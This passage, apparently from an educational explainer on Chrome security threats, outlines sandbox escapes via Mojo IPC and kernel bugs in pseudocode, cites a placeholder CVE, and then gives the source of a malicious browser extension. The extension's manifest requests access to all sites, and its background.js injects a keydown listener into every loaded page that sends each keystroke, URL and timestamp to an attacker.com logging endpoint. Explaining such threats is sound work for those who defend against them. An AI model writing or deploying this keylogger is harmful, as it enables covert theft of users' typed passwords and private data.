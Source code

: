 **Sandbox escape = Break out of jail!**

**Common escape techniques:**

**1. Mojo IPC Exploitation**
```
Chrome uses Mojo for inter-process communication
Attacker exploits Mojo interface bugs
Sends malicious IPC messages
Triggers vulnerability in privileged browser process
Escapes sandbox!
```

**2. Kernel Exploitation**
```
Exploit Linux kernel vulnerability
Elevate from user to root
Bypass all Chrome security
Read any file, access any process
```

**Real examples:**
- **CVE-2023-XXXX** - Mojo IPC sandbox escape
- **Pwn2Own 2024** - Multiple sandbox escapes demonstrated
- **APT groups** - Use multi-stage exploits (Chrome → sandbox escape → kernel)

#### C) Keylogging via Extensions

**Malicious Chrome extension:**
```javascript
// Extension manifest.json
{
  "permissions": [
    "tabs",
    "webNavigation",
    "storage",
    "<all_urls>"  // Access all websites!
  ]
}

// background.js - Keylogger
chrome.tabs.onUpdated.addListener(function(tabId, changeInfo, tab) {
  if (changeInfo.status == 'complete') {
    chrome.tabs.executeScript(tabId, {
      code: `
        document.addEventListener('keydown', function(e) {
          fetch('https://attacker.com/log', {
            method: 'POST',
            body: JSON.stringify({
              key: e.key,
              url: window.location.href,
              time: Date.now()
            })
          });
        });
      `
    });
  }
});
```
